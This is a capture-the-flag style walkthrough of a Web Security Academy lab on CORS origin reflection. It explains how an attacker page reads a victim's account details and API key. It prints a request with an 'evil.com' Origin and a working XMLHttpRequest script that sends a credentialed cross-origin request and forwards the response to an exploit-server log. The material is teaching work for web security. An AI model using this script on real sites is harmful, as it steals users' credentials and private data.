






# Lab: CORS vulnerability with basic origin reflection

!!! info "Lab context"
    This walkthrough describes the Web Security Academy lab shown in the supplied screenshots. Use the lab instance and exploit server assigned to your own session; the hostnames and API values are instance-specific.

This website has an insecure CORS configuration because it trusts and reflects arbitrary origins.

To solve the lab, craft JavaScript that uses CORS to retrieve the administrator's API key, upload the code to your exploit server, and deliver it to the victim. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account with:

```text
Username: wiener
Password: peter
```

## Lab flow

1. Log in to the lab with the supplied `wiener:peter` credentials.
2. Open the account page and identify the account-details request.
3. Confirm that an attacker-controlled `Origin` is reflected in the CORS response.
4. Build an exploit that sends a credentialed cross-origin request to `/accountDetails`.
5. Store the exploit on the exploit server and deliver it to the victim.
6. Read the captured response in the exploit server access log and submit the administrator's API key.

## Step 1: Log in to the lab

Open the lab URL and sign in with `wiener:peter`.



_Figure 1 — The lab login page. The authenticated session matters because the account-details endpoint returns information based on the current user's session._

After a successful login, keep the lab host separate from the exploit-server host. The lab is the target that returns the sensitive response; the exploit server is where the victim's browser will load the attacker's page.

## Step 2: Inspect the account page

The account page displays the logged-in username and an API key. In the normal flow, the browser obtains this information from the lab's account-details endpoint.



_Figure 2 — The authenticated account page. The API key is sensitive data that should not be readable by an untrusted origin._

The goal is not to attack your own account. Your account page helps establish which endpoint is worth testing and shows the type of data that the endpoint returns.

## Step 3: Confirm the CORS misconfiguration

Intercept the account-details request in Burp or another HTTP proxy. Send a request similar to:

```http
GET /accountDetails HTTP/2
Host: <LAB-ID>.web-security-academy.net
Origin: evil.com
Cookie: session=<authenticated-session>
```

The important response headers are:

```http
Access-Control-Allow-Origin: evil.com
Access-Control-Allow-Credentials: true
```



_Figure 3 — The vulnerable response. The server reflects the attacker-controlled `Origin` value and allows credentials, so browser JavaScript running on that origin can read the authenticated response._

The response body contains account data such as the username, email, API key and session information. The combination of an arbitrary reflected origin and `Access-Control-Allow-Credentials: true` is the central vulnerability in this lab.

## Step 4: Build the exploit script

The exploit uses `XMLHttpRequest` to request `/accountDetails` from the lab. `withCredentials = true` tells the browser to include the victim's cookies. When the response arrives, the `onload` handler redirects to the exploit server's `/log` endpoint and places the response in the query string.

The following is the script shown in the fourth image. Replace `<LAB-ID>` with the lab hostname from your own address bar. The relative `/log` path points to the exploit server because the script is hosted there.

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get', 'https://<LAB-ID>.web-security-academy.net/accountDetails', true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + this.responseText;
    };
</script>
```



_Figure 4 — The credentialed cross-origin request. The script reads the response only because the target's CORS policy permits the exploit origin to access it._

### What each important line does

- `new XMLHttpRequest()` creates a browser request object.
- `req.open(...)` targets the lab's account-details endpoint.
- `req.withCredentials = true` includes the victim's authenticated cookies.
- `req.onload = reqListener` runs the handler after the response arrives.
- `location = '/log?key=' + this.responseText` sends the response to the exploit server's access log.

## Step 5: Store and deliver the exploit

Open the exploit server supplied with the lab, paste the script into the response body, and save it. The exploit server page provides controls to store the response, view the exploit and deliver it to the victim.



_Figure 5 — The exploit server. Store the response first, then deliver the page to the victim so the victim's authenticated browser makes the credentialed request._

The victim's browser loads the exploit page from the attacker-controlled origin. The vulnerable lab responds with `Access-Control-Allow-Origin` matching that origin and allows credentials, so the exploit can read the account-details response. The response is then included in the request to `/log`.

## Step 6: Read the access log

Open the exploit server's access log after delivering the exploit. The log contains a request to `/log?key=...`; the value contains the response body returned by the lab.



_Figure 6 — The access log captures the victim's response. In the lab, the captured JSON contains the administrator's API key._

Find the administrator object in the logged response, copy its API key, and submit that value through the lab's **Submit solution** control.

## What happened in the lab?

The lab is vulnerable because the server treats the `Origin` header as trusted input instead of checking it against a fixed allowlist:

1. The attacker hosts JavaScript on the exploit server.
2. The victim visits that page while authenticated to the lab.
3. The script requests `/accountDetails` with the victim's cookies.
4. The lab reflects the attacker's origin and allows credentials.
5. The browser exposes the response to the attacker's JavaScript.
6. The script forwards the response to the exploit server's access log.
7. The attacker reads the administrator's API key from the captured response.

This is why allowing credentials with a reflected or unrestricted origin is dangerous. The attacker does not need to guess the victim's cookie or bypass the login page; the browser supplies the authenticated context and the unsafe CORS policy exposes the response.

## Common mistakes

- Using the exploit-server hostname as the target instead of the lab hostname.
- Forgetting `req.withCredentials = true`.
- Requesting the wrong endpoint instead of `/accountDetails`.
- Saving the script but not delivering it to the victim.
- Looking at the lab page instead of the exploit server's access log.
- Copying a stale API key from a previous lab instance.

## Key takeaway

CORS is enforced by the browser, but the trust decision comes from the server's response headers. A server must never blindly reflect arbitrary origins when it also allows credentials. In this lab, that configuration turns an authenticated account-details endpoint into a cross-origin data-exfiltration path.
